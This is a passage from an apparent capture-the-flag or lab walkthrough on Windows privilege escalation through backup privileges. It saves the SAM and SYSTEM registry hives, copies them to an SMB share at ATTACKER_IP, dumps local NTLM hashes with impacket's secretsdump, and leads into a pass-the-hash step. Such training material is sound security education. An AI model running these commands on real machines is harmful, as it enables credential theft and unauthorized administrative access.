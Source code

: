 ```shell-session
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
        
```

This will create a couple of files with the registry hives content.  We can now copy these files to our attacker machine using SMB or any  other available method. For SMB, we can use impacket's `smbserver.py` to start a simple SMB server with a network share in the current directory of our AttackBox:

- **Kali Linux**        

```shell-session
user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share        
```

This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command in our windows machine to transfer both files to our AttackBox: 

- **Command Prompt**        

```shell-session
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\

        
```

And use impacket to retrieve the users' password hashes:

- **Kali Linux**        

```shell-session
user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


        
```

We can finally use the Administrator's hash to perform a  Pass-the-Hash attack and gain access to the target machine with SYSTEM  privileges:

- **Kali Linux**        
